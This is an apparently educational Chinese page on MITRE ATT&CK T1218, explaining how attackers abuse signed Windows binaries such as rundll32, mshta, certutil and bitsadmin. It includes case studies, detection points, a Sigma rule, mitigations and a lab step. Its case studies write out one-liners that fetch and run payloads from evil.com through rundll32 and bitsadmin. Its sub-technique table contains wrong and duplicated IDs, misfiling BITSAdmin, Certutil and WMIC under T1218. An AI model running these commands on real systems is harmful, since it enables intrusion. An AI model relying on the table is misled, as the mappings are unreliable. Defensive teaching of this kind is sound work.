

# 系统二进制代理执行 (T1218)

## 一句话通俗理解

攻击者利用系统自带的合法程序（如rundll32、mshta）来运行恶意代码，就像让警察帮你传话，因为警察不会被搜身检查。

## 难度等级

⭐⭐ 中级（需要一定基础）

## 技术描述

系统二进制代理执行（T1218）是MITRE ATT&CK框架中隐蔽战术的一种核心技术。

**通俗解释：**
Windows系统自带了大量合法工具——rundll32.exe、mshta.exe、regsvr32.exe、certutil.exe等。这些工具都经过微软的数字签名，被安全软件标记为"白名单"程序。攻击者发现了一个巧妙的技巧：这些工具可以"代劳"执行恶意操作。比如，rundll32.exe原本是用来加载DLL的，但它也可以执行JavaScript！攻击者就利用这一点，让rundll32.exe下载并执行恶意JavaScript代码。安全软件看到的是合法的微软签名的程序，直接放行。

**技术原理：**
1. **rundll32.exe**：可以执行DLL中的函数，甚至可以通过JavaScript执行代码
2. **mshta.exe**：执行HTA（HTML应用）文件，可以包含VBScript/JavaScript
3. **regsvr32.exe**：注册DLL文件，可以从远程URL加载DLL
4. **certutil.exe**：证书管理工具，可以用来下载文件和Base64编解码
5. **msiexec.exe**：Windows安装程序，可以从远程URL安装包含恶意代码的MSI包
6. **wmic.exe**：WMI命令行工具，可以执行任意命令

## 攻击流程



**步骤详解：**
1. **选择工具**：攻击者根据目标环境选择合适的系统二进制工具
2. **构造攻击参数**：利用工具的合法参数格式嵌入恶意代码
3. **触发执行**：通过命令行或脚本触发工具执行恶意负载
4. **绕过检测**：微软签名进程执行恶意操作，安全软件难以拦截

## 子技术列表（部分）

| 子技术ID | 中文名称 | 通俗解释 |
|----------|----------|----------|
| T1218.001 | Mshta | 利用mshta.exe执行HTA文件中的恶意脚本 |
| T1218.002 | Rundll32 | 利用rundll32.exe执行DLL导出函数或JavaScript |
| T1218.003 | Regsvr32 | 利用regsvr32.exe注册或加载远程DLL |
| T1218.004 | InstallUtil | 利用InstallUtil.exe执行.NET安装程序代码 |
| T1218.005 | Msiexec | 利用msiexec.exe安装恶意MSI包 |
| T1218.007 | Msiexec | 利用Msiexec执行远程安装 |
| T1218.008 | BITSAdmin | 利用bitsadmin.exe下载和上传文件 |
| T1218.009 | Certutil | 利用certutil下载文件和解码Base64 |
| T1218.011 | WMIC | 利用wmic执行WMI查询和命令 |
| T1218.014 | MMC | 利用mmc.exe加载恶意管理单元 |

## 真实案例

### 案例1：Rundll32 JavaScript 无文件攻击（2018-2023）

- **时间**: 2018-2023年
- **手法**: 大量攻击者使用`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://evil.com/payload")`执行无文件恶意脚本。
- **参考链接**: [LOLBAS - Rundll32](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/)

### 案例2：Nobelium 使用MSHTA进行初始访问（2021）

- **时间**: 2021年
- **目标**: 全球政府机构
- **攻击组织**: Nobelium
- **手法**: 发送包含HTA附件的钓鱼邮件，用户打开后mshta.exe自动执行恶意VBScript代码，下载并安装Cobalt Strike Beacon。
- **参考链接**: [Microsoft - NOBELIUM](https://www.microsoft.com/security/blog/2021/05/27/)

### 案例3：TA551 使用BITSAdmin下载恶意负载（2020-2021）

- **时间**: 2020-2021年
- **目标**: 全球企业
- **攻击组织**: TA551
- **手法**: 使用`bitsadmin /transfer job /download /priority high https://evil.com/payload.exe C:\temp\payload.exe`下载恶意软件。
- **参考链接**: [MITRE - T1218.008](https://attack.mitre.org/techniques/T1218/008/)

### 案例4：攻击者利用Certutil进行文件下载（2024年）

- **时间**: 2024年
- **手法**: 攻击者继续使用certutil.exe进行Base64解码和文件下载。尽管微软已逐步弃用certutil的下载功能，但在旧版系统中仍然可用。
- **参考链接**: [LOLBAS - Certutil](https://lolbas-project.github.io/lolbas/Binaries/Certutil/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| Cobalt Strike | Malleable C2利用多种LOLBin执行 | Windows | https://www.cobaltstrike.com/ |
| SharpLOL | LOLBin执行框架 | Windows | https://github.com/Mr-Un1k0d3r/SharpLOL |

## 蓝队视角

### 检测要点

- 监控rundll32.exe的命令行参数包含"javascript:"或"http://"
- 检测mshta.exe从临时目录或远程URL执行
- 监控regsvr32.exe加载远程DLL（命令行包含http://）
- 检测certutil.exe的非证书管理使用（如Base64解码）

## 检测建议

### 主机层检测

- 监控rundll32.exe执行JavaScript或从远程URL加载脚本
- 检测mshta.exe从临时目录或远程URL执行HTA文件
- 监控regsvr32.exe的Squiblydoo技巧（命令行包含scrobj.dll）
- 检测certutil.exe的非证书管理使用（如Base64解码远程文件）
- 使用Sysmon事件ID 1（进程创建）监控LOLBin工具的异常调用参数

### 网络层检测

- 监控mshta.exe、regsvr32.exe等工具对外发起HTTP/HTTPS连接
- 检测certutil.exe的URL下载行为（-urlcache参数）
- 关注Office应用调用系统二进制并同时发起网络连接的行为

**Sigma规则：**
```yaml
title: Rundll32 执行JavaScript
status: experimental
description: 检测rundll32.exe通过JavaScript执行代码
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image|endswith: '\rundll32.exe'
        CommandLine|contains: 'javascript:'
    condition: selection
level: high
tags:
    - attack.t1218
```

## 缓解措施

### 优先级1：关键措施
**应用白名单控制：**
- 使用AppLocker或WDAC限制LOLBin工具的异常使用
- 对rundll32.exe、mshta.exe等工具配置额外的执行策略

### 优先级2：重要措施
**命令行监控与告警：**
- 配置Sysmon监控rundll32.exe的JavaScript执行（命令行包含javascript:）
- 监控mshta.exe从临时目录或远程URL执行
- 检测regsvr32.exe的远程DLL加载行为

### 优先级3：建议措施
**工具禁用：**
- 在不需要的环境中禁用或移除mshta.exe等高危工具
- 使用微软推荐的替代方案替换certutil.exe的下载功能

### MITRE ATT&CK缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1038 | 执行防护 | 适用 | 使用AppLocker限制系统二进制的异常使用 |
| M1021 | 限制网络通信 | 适用 | 阻止远程URL加载DLL和脚本 |
| M1045 | 软件更新 | 适用 | 及时更新移除存在风险的系统组件 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验1：使用Rundll32执行JavaScript（中级）

**实验步骤：**
1. 在Windows VM中执行：`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";alert('测试');`
2. 观察弹出对话框
3. 使用Process Monitor观察rundll32的网络活动

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| LOLBin | Living Off the Land Binary | 系统自带的白名单工具，被攻击者"借刀杀人" |
| HTA | HTML Application | HTML应用程序，可以用VBScript写代码，双击执行 |
| Squiblydoo | Regsvr32远程加载技巧 | 用regsvr32从网络加载DLL的技巧名称 |

## 参考资料

- [MITRE ATT&CK - T1218 System Binary Proxy Execution](https://attack.mitre.org/techniques/T1218/)
- [LOLBAS Project](https://lolbas-project.github.io/)
